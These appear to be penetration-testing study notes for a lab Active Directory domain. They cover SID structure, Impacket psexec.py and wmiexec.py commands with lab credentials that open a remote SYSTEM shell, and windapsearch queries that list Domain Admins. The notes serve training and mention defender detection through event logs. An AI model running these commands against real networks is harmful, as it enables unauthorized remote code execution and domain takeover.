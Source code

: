 #### **Explanation of SID and RID**
- Domain SID: `S-1-5-21-<unique domain identifier>`.
- User SID: Combines Domain SID with RID (e.g., `S-1-5-21-<unique domain ID>-1111`).


### **Using Impacket Toolkit**

#### **psexec.py**
-  Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Once established, communication happens over a named pipe, providing an interactive remote shell as SYSTEM on the victim host.
- **Usage**:
  ```bash
  psexec.py [domain/user]:[password]@[target]
  ```
- Example:
  ```bash
  psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
  ```
- **Output**: Shell prompt with SYSTEM privileges on the target.

#### **wmiexec.py**
- Executes commands via Windows Management Instrumentation (WMI).
- **Usage**:
  ```bash
  wmiexec.py [domain/user]:[password]@[target]
  ```
- Example:
  ```bash
  wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
  ```
 this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. The downside of this is that if a vigilant defender checks event logs and looks at event ID 4688: A new process has been created, they will see a new process created to spawn cmd.exe and issue a command.


### **Using Windapsearch**
`windapsearch.py` performs LDAP queries to enumerate AD information.

#### **Help Menu**
```bash
python3 /opt/windapsearch/windapsearch.py -h
```

#### **Enumerate Domain Admins**
```bash
python3 /opt/windapsearch/windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```
- **Output**: Lists members of the `Domain Admins` group.
